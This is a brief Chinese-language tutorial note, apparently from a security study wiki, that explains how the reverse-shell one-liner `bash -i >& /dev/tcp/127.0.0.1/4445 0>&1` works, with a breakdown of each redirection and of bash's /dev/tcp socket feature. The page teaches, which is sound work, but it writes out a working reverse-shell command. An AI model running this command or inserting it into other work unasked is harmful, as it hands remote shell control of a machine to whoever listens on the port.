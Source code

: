# 探索 Reverse SHELL

> 在执行 `bash -i >& /dev/tcp/127.0.0.1/4445 0>&1` 时如何理解

1. `bash -i` 交互 shell
2. `>&` 重定向标准输出和错误
3.  `/dev/tcp/127.0.0.1/4445`

    > /dev/tcp/host\*\*\*/\*\*\*port : 如果 host 是一个有效的主机名或 INternet 地址，而 port 是一个端口号或者服务名称， bash 会尝试打开到相应套接字的 TCP 连接
4. `0>&1` : 将文件描述符_数字_移动到文件描述符_n_或标准输入（文件描述符 0）（如果未指定n ）。

<figure><img src="../../../.gitbook/assets/re_shell1.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/re_shell2.png" alt=""><figcaption></figcaption></figure>

## 参考

* [参考视频](https://www.youtube.com/watch?v=OjkVep2EIlw)
